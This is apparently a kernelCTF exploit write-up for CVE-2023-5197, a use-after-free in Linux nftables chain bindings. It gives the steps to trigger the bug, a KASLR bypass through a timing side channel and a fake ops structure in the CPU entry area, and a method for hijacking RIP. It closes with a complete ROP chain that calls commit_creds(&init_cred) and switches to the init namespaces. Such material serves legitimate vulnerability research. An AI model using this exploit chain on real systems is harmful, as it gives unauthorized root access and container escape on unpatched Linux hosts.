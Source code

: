 # Overview

This vulnerability was discovered by Kevin Rich, and his write-up targeting the LTS/COS kernel can be found [here](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-5197_lts_cos).

```c
static void nft_immediate_chain_deactivate(const struct nft_ctx *ctx,
                       struct nft_chain *chain,
                       enum nft_trans_phase phase)
{
    struct nft_ctx chain_ctx;
    struct nft_rule *rule;

    chain_ctx = *ctx;
    chain_ctx.chain = chain;

    list_for_each_entry(rule, &chain->rules, list)
        nft_rule_expr_deactivate(&chain_ctx, rule, phase);
}

static void nft_immediate_deactivate(const struct nft_ctx *ctx,
                     const struct nft_expr *expr,
                     enum nft_trans_phase phase)
{
    const struct nft_immediate_expr *priv = nft_expr_priv(expr);
    const struct nft_data *data = &priv->data;
    struct nft_chain *chain;

    if (priv->dreg == NFT_REG_VERDICT) {
        switch (data->verdict.code) {
        case NFT_JUMP:
        case NFT_GOTO:
            chain = data->verdict.chain;
            if (!nft_chain_binding(chain))
                break;

            switch (phase) {
            case NFT_TRANS_PREPARE_ERROR:
                nf_tables_unbind_chain(ctx, chain);
                nft_deactivate_next(ctx->net, chain);
                break;
            case NFT_TRANS_PREPARE:
                nft_immediate_chain_deactivate(ctx, chain, phase);      // [1]
                nft_deactivate_next(ctx->net, chain);
                break;
            default:
                nft_immediate_chain_deactivate(ctx, chain, phase);
                nft_chain_del(chain);
                chain->bound = false;
                nft_use_dec(&chain->table->use);
                break;
            }
            break;
        default:
            break;
        }
    }

    if (phase == NFT_TRANS_COMMIT)
        return;

    return nft_data_release(&priv->data, nft_dreg_to_type(priv->dreg));     // [2]
}
```

The vulnerability is caused by being able to delete the rules of a chain with the binding flag set. To trigger the vulnerability, create a vulnerable chain with the binding flag set. Then, create an immediate expr in the vulnerable chain that references the victim chain, and then delete the immediate expr. As a result, the reference count of the victim chain is decreased [2]. Then, creating an immediate expr that references the vulnerable chain and deleting it causes the already deactivated rule in the vulnerable chain to be deactivated again [1]. As a result, the reference count of the victim chain is decreased twice.

# KASLR Bypass and Information Leak

To bypass KASLR, I used a timing side channel attack to leak the kernel base, and created a fake ops in the non-randomized CPU entry area (CVE-2023-0597) without leaking the heap address.

# RIP Control

```c
struct nft_chain {
	struct nft_rule_blob		__rcu *blob_gen_0;
	struct nft_rule_blob		__rcu *blob_gen_1;
	struct list_head		rules;
	struct list_head		list;
	struct rhlist_head		rhlhead;
	struct nft_table		*table;
	u64				handle;
	u32				use;
	u8				flags:5,
					bound:1,
					genmask:2;
	char				*name;
	u16				udlen;
	u8				*udata;

	/* Only used during control plane commit phase: */
	struct nft_rule_blob		*blob_next;
};
```

When the vulnerability is triggered, the freed `chain->blob_gen_0` can be accessed via `immediate expr`.

```c
unsigned int
nft_do_chain(struct nft_pktinfo *pkt, void *priv)
{
	...
do_chain:
	if (genbit)
		blob = rcu_dereference(chain->blob_gen_1);
	else
		blob = rcu_dereference(chain->blob_gen_0);

	rule = (struct nft_rule_dp *)blob->data;
	last_rule = (void *)blob->data + blob->size;
next_rule:
	regs.verdict.code = NFT_CONTINUE;
	for (; rule < last_rule; rule = nft_rule_next(rule)) {
		nft_rule_dp_for_each_expr(expr, last, rule) {
			if (expr->ops == &nft_cmp_fast_ops)
				nft_cmp_fast_eval(expr, &regs);
			else if (expr->ops == &nft_cmp16_fast_ops)
				nft_cmp16_fast_eval(expr, &regs);
			else if (expr->ops == &nft_bitwise_fast_ops)
				nft_bitwise_fast_eval(expr, &regs);
			else if (expr->ops != &nft_payload_fast_ops ||
				 !nft_payload_fast_eval(expr, &regs, pkt))
				expr_call_ops_eval(expr, &regs, pkt);

			if (regs.verdict.code != NFT_CONTINUE)
				break;
		}
```

```c
static void expr_call_ops_eval(const struct nft_expr *expr,
			       struct nft_regs *regs,
			       struct nft_pktinfo *pkt)
{
#ifdef CONFIG_RETPOLINE
	unsigned long e = (unsigned long)expr->ops->eval;
#define X(e, fun) \
	do { if ((e) == (unsigned long)(fun)) \
		return fun(expr, regs, pkt); } while (0)

	X(e, nft_payload_eval);
	X(e, nft_cmp_eval);
	X(e, nft_counter_eval);
	X(e, nft_meta_get_eval);
	X(e, nft_lookup_eval);
	X(e, nft_range_eval);
	X(e, nft_immediate_eval);
	X(e, nft_byteorder_eval);
	X(e, nft_dynset_eval);
	X(e, nft_rt_get_eval);
	X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
	expr->ops->eval(expr, regs, pkt);
}
```

`chain->blob_gen_0` is used in `nft_do_chain`, and `expr->ops->eval` is called to evaluate the expression in `expr_call_ops_eval`. We set the ops of the fake expr to the CPU entry area to control the RIP and allocate the fake blob object larger than 0x2000 to use page allocator.

# Post-RIP

The ROP payload is stored in `chain->blob_gen_0` which is allocated by page allocator.

```c
void rop_chain(uint64_t* data){
    int i = 0;

    data[i++] = 0x100;
    data[i++] = 0x100;
    data[i++] = PAYLOAD_LOCATION(1) + offsetof(struct cpu_entry_area_payload, nft_expr_eval);

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;

    // Bypass "schedule while atomic": set oops_in_progress = 1
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + OOPS_IN_PROGRESS;
    data[i++] = kbase + MOV_RSI_RDI_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    data[i++] = kbase + POP_RSI_RET;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```